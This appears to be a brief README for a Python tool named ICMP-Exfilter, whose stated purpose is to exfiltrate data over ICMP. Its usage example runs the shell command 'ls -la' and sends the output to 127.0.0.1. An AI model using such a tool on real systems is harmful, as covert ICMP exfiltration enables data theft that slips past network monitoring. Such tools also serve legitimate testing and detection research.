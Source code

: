 ICMP-Exfilter
=============

A rudimental ICMP exfilter.

Example
-------
Launch a Python 3.x interpreter.

    $ python3
    >>> from icmp_exfilter import ICMPExfilter
    >>> i = ICMPExfilter(["ls", "-la"])
    >>> i.send_to("127.0.0.1")


